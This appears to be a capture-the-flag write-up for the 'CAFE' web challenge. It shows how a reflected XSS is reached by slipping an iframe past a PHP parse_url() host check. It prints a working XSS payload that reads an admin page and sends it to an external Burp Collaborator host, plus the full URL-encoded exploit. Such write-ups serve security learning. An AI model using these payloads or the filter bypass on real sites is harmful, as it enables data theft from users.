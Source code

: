 ## CAFE - Web Challenge
![alt desc](./chal-des.png)

## Author: p4w

### Solution
The first step was to discover a trivial XSS vulnerability on the `/search?text=<XSS>` path.
The problem is that we can't submit this page directly to the admin, as it will only visit content on the `/read` path.

![alt desc](./trivial_XSS_in_search_page.png)

These are the functionality offered from the web-application:
* read a post
* write a post
* search post
* list all post
* report a post to the admin

By analyzing the source code we can spot that if the post contents have some html tag, then the application will try to sanitize it. The sanitize is done by parsing the user input and allowing only certain tags, in addiction some manipulation on the allowed tags is done. The pictures below show the behaviour of the web application.
![alt desc](./src-filter.png)

So here I immediately think that if we manage to point the __src__ attribute of an __iframe__ tag to the `/search?text=<XSS>` endpoint we can exploit the trivial XSS previously found. The problem is to bypass this check:
```
case 'iframe':
  $src = $element->src;
  $host = parse_url($src)['host'];
  if (strpos($host, 'youtube.com') !== false){
    $result .= '<iframe src="'. str_replace('"', '', $src) .'"></iframe>';
  }
  break;
```

By doing manual fuzzing, I was able to spot a discrepancy between the `parse_url()` __php function__ and the __src__ loading for an html element.
![alt desc](diff.png)

In green is highlighted the part that will be considered the host by the __src__ attribute, instead in __red__ is highlighted the part that is considered the host by the parse_url function.

The figure below shows the different behavior.

__parse_url()__ behavior:

![alt desc](bypass-parse_url-2.png)

__src__ behavior:

![alt desc](bypass-parse_url-poc-1.png)

__src__ behavior in browser:

![alt desc](bypass-parse_url-poc.png)

Now we have a way to bypass the filter since we can submit a payload containing an __iframe__ tag that let the __parse_url__ function return "youtube.com" as required, but when it is loaded from the browser it will point to the vulnerable endpoint.
To grab the flag we need to get the contents of a post submitted by the admin.

XSS payload to steal page contents:
```
<script>var url = "http://3.39.55.38:1929/read?no=1";
var attacker = "http://w419dzeivpt6tx3s1i8eg901rsxil7.burpcollaborator.net/exfil";
var xhr  = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
        fetch(attacker + "?" + encodeURI(btoa(xhr.responseText)))
    }
}
xhr.open('GET', url, true);
xhr.send(null);</script>
```


Final and full payload:
```
<iframe src="http://3.39.55.38:1929\@youtube.com/../search?text=%3c%73%63%72%69%70%74%3e%76%61%72%20%75%72%6c%20%3d%20%22%68%74%74%70%3a%2f%2f%33%2e%33%39%2e%35%35%2e%33%38%3a%31%39%32%39%2f%72%65%61%64%3f%6e%6f%3d%31%22%3b%0a%76%61%72%20%61%74%74%61%63%6b%65%72%20%3d%20%22%68%74%74%70%3a%2f%2f%77%34%31%39%64%7a%65%69%76%70%74%36%74%78%33%73%31%69%38%65%67%39%30%31%72%73%78%69%6c%37%2e%62%75%72%70%63%6f%6c%6c%61%62%6f%72%61%74%6f%72%2e%6e%65%74%2f%65%78%66%69%6c%22%3b%0a%76%61%72%20%78%68%72%20%20%3d%20%6e%65%77%20%58%4d%4c%48%74%74%70%52%65%71%75%65%73%74%28%29%3b%0a%78%68%72%2e%6f%6e%72%65%61%64%79%73%74%61%74%65%63%68%61%6e%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%69%66%20%28%78%68%72%2e%72%65%61%64%79%53%74%61%74%65%20%3d%3d%20%58%4d%4c%48%74%74%70%52%65%71%75%65%73%74%2e%44%4f%4e%45%29%20%7b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%61%74%74%61%63%6b%65%72%20%2b%20%22%3f%22%20%2b%20%65%6e%63%6f%64%65%55%52%49%28%62%74%6f%61%28%78%68%72%2e%72%65%73%70%6f%6e%73%65%54%65%78%74%29%29%29%0a%20%20%20%20%7d%0a%7d%0a%78%68%72%2e%6f%70%65%6e%28%27%47%45%54%27%2c%20%75%72%6c%2c%20%74%72%75%65%29%3b%0a%78%68%72%2e%73%65%6e%64%28%6e%75%6c%6c%29%3b%3c%2f%73%63%72%69%70%74%3e">
```

Here you can see the exfiltration of the page containing the flag:
![alt desc](exfil-flag.png)

## Reference
* [Exploiting-URL-Parsing-Confusion.pdf](https://claroty.com/wp-content/uploads/2022/01/Exploiting-URL-Parsing-Confusion.pdf)
* [Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf)
